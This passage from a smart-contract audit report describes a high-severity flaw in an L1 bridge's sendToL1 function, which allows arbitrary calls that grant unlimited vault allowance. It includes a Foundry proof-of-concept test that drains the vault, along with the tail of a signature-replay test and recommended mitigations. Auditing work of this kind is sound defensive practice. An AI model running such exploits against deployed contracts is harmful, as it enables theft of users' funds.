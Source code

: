 ```js
        }

        assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
        assertEq(token.balanceOf(address(vault)), 0);
    }
```

**Recommended Mitigation:** 
Sign messages with nonce and address of the contract. [Example](https://solidity-by-example.org/hacks/signature-replay/)

### [H-3] Arbitrary calls in `L1BossBridge::sendToL1` enables an attacker to call `L1Vault::approveTo` and receive infinite allowance of vault funds

**Description:** 
The `L1BossBridge` contract contains the `sendToL1` function, which can execute arbitrary low-level calls to any specified target if invoked with a valid operator signature. Since there are no restrictions on the target or the calldata, this function could be exploited by an attacker to interact with sensitive contracts connected to the bridge, such as the `L1Vault` contract. Notably, the `L1BossBridge` has ownership of the `L1Vault`. An attacker could craft a call targeting the vault to invoke its `approveTo` function, supplying an attacker-controlled address to increase its allowance. This would grant the attacker the ability to fully drain the vault’s funds.

**Impact:** 
Vault could be drained.

**Proof of Concept:**
Add the following test to the test suite:

```js
    function testInfiniteAllowance() public {
        address attacker = makeAddr("attacker");
        uint256 vaultInitialBalance = 1000e18;
        deal(address(token), address(vault), vaultInitialBalance);

        // An attacker deposits tokens to L2. We do this under the assumption that the
        // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(attacker), address(0), 0);
        tokenBridge.depositTokensToL2(attacker, address(0), 0);

        // Under the assumption that the bridge operator doesn't validate bytes being signed
        bytes memory message = abi.encode(
            address(vault), // target
            0, // value
            abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)) // data
        );
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

        tokenBridge.sendToL1(v, r, s, message);
        assertEq(token.allowance(address(vault), attacker), type(uint256).max);
        token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
    }
```
**Recommended Mitigation:** 
Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the L1Vault contract.

